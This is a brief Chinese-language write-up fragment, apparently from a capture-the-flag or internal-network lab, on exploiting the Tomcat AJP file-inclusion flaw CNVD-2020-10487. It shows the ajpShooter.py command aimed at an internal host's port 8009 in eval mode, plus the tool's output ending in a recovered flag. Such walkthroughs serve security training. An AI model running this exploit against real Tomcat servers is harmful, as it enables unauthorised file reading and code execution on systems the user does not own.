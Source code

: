 ##### CNVD-2020-10487（Tomcat本地文件包含漏洞）

![用proxifier代理python程序到内网](image-20200309063050849.png)

```shell
$ python ajpShooter.py http://10.10.2.13:8080/ 8009 /frieggs.txt eval

       _    _         __ _                 _
      /_\  (_)_ __   / _\ |__   ___   ___ | |_ ___ _ __
     //_\\ | | '_ \  \ \| '_ \ / _ \ / _ \| __/ _ \ '__|
    /  _  \| | |_) | _\ \ | | | (_) | (_) | ||  __/ |
    \_/ \_// | .__/  \__/_| |_|\___/ \___/ \__\___|_|
         |__/|_|
                                                00theway,just for test


[<] 200 200
[<] Set-Cookie: JSESSIONID=13FD21BEF3EB66C6BFFEE7ECD93A0410; Path=/; HttpOnly
[<] Content-Type: text/html;charset=ISO-8859-1
[<] Content-Length: 23

flag{xGJpVxvjqRcwCQZR}
```
